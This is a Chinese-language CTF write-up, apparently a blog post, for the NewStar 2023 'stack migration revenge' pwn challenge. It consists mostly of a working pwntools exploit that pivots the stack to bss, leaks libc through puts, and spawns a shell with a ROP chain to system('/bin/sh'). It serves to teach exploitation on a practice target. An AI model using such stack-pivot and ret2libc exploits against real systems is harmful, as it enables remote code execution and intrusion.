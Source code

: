 ```yaml
---
title: newstar2023 week3 - stack migration revenge
date: 2023/10/14 12:00:00
updated: 2024/7/25 12:34:56
tags:
    - noob
excerpt: 通过栈迁移到bss区控制地址，利用GOT和PLT泄露libc地址并执行system函数。
---
```


## 文件分析

下载`pwn`, NX on, PIE off, Canary off, RELRO full  
ghidra分析为64位程序
~~怎么这次都是-2.zip~~

## 解题思路

程序很简单，但是拿不到栈地址，怎么办？  
迁移到bss上后，地址就可控了，回到了上次的栈迁移

## EXPLOIT

```python
from pwn import *
sh = remote('node4.buuoj.cn', 25597)
elf = ELF('stackm')
bss = 0x404800
read = 0x4011ff # read to bss - 0x50

# payload 1, stack pivot to bss
sh.send(b'0'*0x50 + p64(bss) + p64(read))

sh.recvuntil(b'ny\n') #skip
putsGot = elf.got['puts']
putsPlt = elf.plt['puts']
vulnAddr = 0x4011db
popRdiAddr = 0x4012b3
retAddr = 0x401228
leaveRetAddr = 0x401227

# payload 2, stack pivot to popRdi
sh.send(p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(vulnAddr) + b'0'*0x30 + p64(bss - 0x58) + p64(leaveRetAddr))

sh.recvuntil(b'ny\n') # skip
putsGotAddr = u64(sh.recvline()[:6] + b'\0\0')
libc = LibcSearcher.LibcSearcher('puts', putsGotAddr & 0xfff)
libcBase = putsGotAddr - libc.dump('puts')
systemAddr = libcBase + libc.dump('system')
shstrAddr = libcBase + libc.dump('str_bin_sh')

# payload 3
sh.send(p64(popRdiAddr) + p64(shstrAddr) + p64(retAddr) + p64(systemAddr) + b'0'*0x30 + p64(bss - 0x90) + p64(leaveRetAddr))

sh.interactive()
```

Done.
